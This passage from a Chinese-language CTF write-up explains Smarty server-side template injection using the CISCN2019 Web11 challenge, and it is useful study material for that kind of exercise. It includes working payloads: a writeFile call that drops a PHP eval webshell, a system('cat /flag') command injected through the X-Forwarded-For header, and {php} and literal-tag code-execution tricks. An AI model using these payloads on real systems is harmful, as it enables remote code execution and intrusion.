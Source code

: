 因此我们可以构造payload写个webshell:

```
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php eval($_GET['cmd']); ?>",self::clearConfig())}
```

### CTF实例讲解

CTF地址：https://buuoj.cn/challenges（CISCN2019华东南赛区Web11）

题目模拟了一个获取IP的API，并且可以在最下方看到 "Build With Smarty !" 可以确定页面使用的是Smarty模板引擎。

![img](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820231808793-180982707.png)

![img](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820232249193-1694257286.png)

在页面的右上角发现了IP，但是题目中显示的API的URL由于环境的原因无法使用，猜测这个IP受X-Forwarded-For头控制。

将XFF头改为 {6*7} 会发现该位置的值变为了42，便可以确定这里存在SSTI。

![img](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820232629595-1646272720.png)

直接构造 {system('cat /flag')} 即可得到flag

![img](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820232839480-729397105.png)

### Smarty-SSTI常规利用方式：

**1. {$smarty.version}**

```
{$smarty.version}  #获取smarty的版本号
```

![img](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820233050238-1942906786.png)

**2. {php}{/php}**

```
{php}phpinfo();{/php}  #执行相应的php代码
```

Smarty支持使用 {php}{/php} 标签来执行被包裹其中的php指令，最常规的思路自然是先测试该标签。但就该题目而言，使用{php}{/php}标签会报错：

![img](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820233259128-196602210.png)

因为在Smarty3版本中已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用。

**3. {literal}**

```
<script language="php">phpinfo();</script>   
```

这个地方借助了 {literal} 这个标签，因为 {literal} 可以让一个模板区域的字符原样输出。 这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析。但是这种写法只适用于php5环境，这道ctf使用的是php7，所以依然失败
